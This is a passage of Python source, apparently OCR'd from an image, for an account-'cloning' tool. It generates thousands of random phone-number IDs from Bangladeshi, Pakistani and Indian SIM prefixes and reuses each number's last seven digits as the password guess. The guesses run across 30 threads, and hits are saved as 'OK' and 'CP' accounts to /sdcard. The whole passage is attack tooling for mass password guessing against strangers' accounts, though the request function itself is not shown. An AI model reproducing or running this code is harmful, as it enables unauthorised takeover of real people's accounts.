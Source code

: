     os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER NAME\033[1;91m                :\033[1;96m "+NameX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m1') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,]
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

def pass2():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 